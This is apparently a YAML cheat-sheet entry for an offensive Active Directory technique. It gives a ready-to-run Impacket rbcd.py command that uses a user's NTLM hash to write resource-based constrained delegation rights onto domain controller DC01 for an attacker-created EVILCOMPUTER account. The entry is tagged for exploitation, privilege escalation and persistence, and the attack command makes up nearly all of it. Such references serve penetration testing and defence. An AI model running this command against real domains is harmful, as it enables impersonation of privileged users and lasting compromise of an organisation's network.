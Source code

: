 ```yaml
---
description: |
  Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer. 
  The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01.
  This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.

  Command Reference:

    Target IP: 10.10.10.1

    Domain: test.local

    Username: john

    Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

    Delegate To: DC01$

    Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

